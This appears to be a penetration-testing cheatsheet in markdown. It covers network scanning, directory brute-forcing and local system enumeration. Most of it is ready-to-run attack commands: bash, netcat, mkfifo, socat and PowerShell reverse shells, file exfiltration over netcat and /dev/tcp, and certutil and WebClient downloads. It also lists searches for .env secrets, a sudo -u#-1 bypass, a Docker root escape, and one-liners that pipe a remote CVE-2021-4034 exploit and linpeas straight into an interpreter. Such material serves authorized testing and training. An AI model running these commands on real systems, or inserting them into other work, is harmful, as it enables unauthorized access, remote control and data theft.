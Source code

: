 # CHEATSHEET


## ENUMERATION

### NETWORK

 #### HOST DISCOVERY
 
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```

 #### TCP OPEN PORTS
 
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```

 #### INFO & VERSION
 
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```

 #### HTTP ENUMERATION

 Enumerate common directories and files with nmap
 
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```

 Gobuster

```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```



## REVERSE SHELLS

 #### BASH
 
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

 #### NETCAT
 
```bash
nc -e /bin/bash <IP> <PORT>
```

 #### MKFIFO
 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

 #### SOCAT
 
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

 #### POWERSHELL

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

 ### INTERACTIVE TTY

```bash
script /dev/null -c bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```



## SHARE AND DOWNLOAD


 #### HTTP SERVER
 
```bash
# Python3
python3 -m http.server <PORT>

# Python2
python -m SimpleHTTPServer <PORT>

# PHP
php -S 0.0.0.0:<PORT>
```

 #### SMB 
 
```bash
smbserver.py <NAME> $(pwd) -smb2support
```

 #### FILE TRANSFER ( NETCAT - BASH ) 
 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```

 #### DOWNLOAD 

 Powershell
 
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```

Cmd
 
```shell
certutil -urlcache -split -f <URL> <PATH>
```

Bash
 
```bash
wget "http://<IP>/"
```



## SYSTEM ENUMERATION


 #### Enviroment Variables
 
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```

 #### Find SUID on GUID files
 
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```

 #### Check capabilities
 
```bash
getcap -r / 2>/dev/null
```

 #### Open local ports
 
```bash
ss -nltp
```

 #### Cron Jobs
 
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```

 #### Monitoring processes
 
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

 #### Scripts with write permissions
 
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```

 #### LinPEAS
 
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```



## PRIVILEGE ESCALATION

 #### Sudo

```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```

 #### Polkit - (CVE-2021-4034)

```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```
 
 #### Docker
 
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

